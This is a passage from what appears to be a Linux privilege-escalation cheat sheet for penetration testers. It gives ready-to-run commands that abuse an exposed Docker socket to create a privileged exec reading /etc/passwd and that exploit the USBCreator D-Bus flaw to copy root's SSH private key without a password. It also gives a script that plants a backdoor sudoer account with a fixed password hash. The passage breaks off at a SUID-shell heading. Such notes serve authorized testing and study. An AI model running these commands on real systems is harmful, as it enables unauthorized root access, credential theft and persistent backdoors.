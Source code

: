 #### List all containers

```text
curl -ik --unix-socket /var/run/docker.sock http://<docker_host>:PORT/containers/json
```

#### Create an exec

```text
curl -ik -X POST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' http://<docker_host>:PORT/containers/<container_id>/exec
```

#### Start the exec

```text
curl -ik -X POST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" --data-binary '{"Detach": false,"Tty": true} http://<docker_host>:PORT/exec/<exec_id>/start' 
```

* [https://dejandayoff.com/the-danger-of-exposing-docker.sock/](https://dejandayoff.com/the-danger-of-exposing-docker.sock/)

## USBCreator D-Bus

A vulnerability in the USBCreator D-Bus interface allows an attacker with access to a user in the **sudoer group to bypass the password** security policy imposed by the sudo program. The vulnerability allows an attacker to overwrite arbitrary files with arbitrary content, as root – **without supplying a password.**

```text
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /id_rsa true
```

* [https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)

## Executing files with root

### Adding a new SUDOER user \(Bash\)

We can create a new user and add it to the sudoers file:

```text
#!/bin/bash

useradd dirty_sock -m -p '$6$sWZcW1t25pfUdBuX$jWjEZQF2zFSfyGy9LbvG3vFzzHRjXfBYK0SOGfMD1sLyaS97AwnJUs7gDCY.fg19Ns3JwRdDhOcEmDpBVlF9m.' -s /bin/bash
usermod -aG sudo dirty_sock
echo "dirty_sock    ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

### Creating a SUID shell \(bash\)
